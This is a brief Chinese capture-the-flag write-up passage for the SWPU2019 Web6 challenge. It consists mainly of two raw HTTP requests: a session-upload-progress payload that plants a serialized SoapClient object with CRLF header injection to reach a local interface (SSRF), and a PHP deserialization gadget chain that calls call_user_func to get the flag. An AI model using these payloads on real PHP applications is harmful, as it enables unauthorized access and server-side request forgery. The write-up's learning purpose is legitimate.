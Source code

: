 ## 0x06 [SWPU2019]Web6

猜谜语，大家和我一起猜谜语，猜中的话就给你一个flag，猜不中就给我爬开点。

开篇是个rollup注入，学习了。

```
POST /index.php HTTP/1.1
Host: 09965a05-6a41-44d6-8afa-cdb616073670.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:12.0) Gecko/20100101 Firefox/12.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Referer: http://e9c1f3a3-c85f-4699-95d1-e09749f5226c.node3.buuoj.cn/index.php?method=user
Cookie: PHPSESSID=ccc;
Content-Type: multipart/form-data; boundary=--------1995995913
Content-Length: 442
Connection: close
Accept-Encoding: gzip,deflate

----------1995995913
Content-Disposition: form-data; name="PHP_SESSION_UPLOAD_PROGRESS"

|O:10:"SoapClient":4:{s:3:"uri";s:4:"aaab";s:8:"location";s:30:"http://127.0.0.1/interface.php";s:11:"_user_agent";s:60:"wupco
X-Forwarded-For: 127.0.0.1
Cookie: user=xZmdm9NxaQ==";s:13:"_soap_version";i:1;}
----------1995995913
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain


----------1995995913--

```

```
POST /se.php HTTP/1.1
Host: 09965a05-6a41-44d6-8afa-cdb616073670.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64; rv:12.0) Gecko/20100101 Firefox/12.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-cn,zh;q=0.8,en-us;q=0.5,en;q=0.3
Cookie: PHPSESSID=ccc;
Content-Type: application/x-www-form-urlencoded
Content-Length: 278
Connection: close

aa=O:2:"bb":2:{s:4:"mod1";O:2:"aa":2:{s:4:"mod1";N;s:4:"mod2";a:1:{s:5:"test2";O:2:"cc":3:{s:4:"mod1";O:2:"ee":2:{s:4:"str1";O:2:"dd":3:{s:4:"name";N;s:4:"flag";s:8:"Get_flag";s:1:"b";s:14:"call_user_func";}s:4:"str2";s:7:"getflag";}s:4:"mod2";N;s:4:"mod3";N;}}}s:4:"mod2";N;}

```

然后就是两个链子，和一个奇怪的逆向混入。

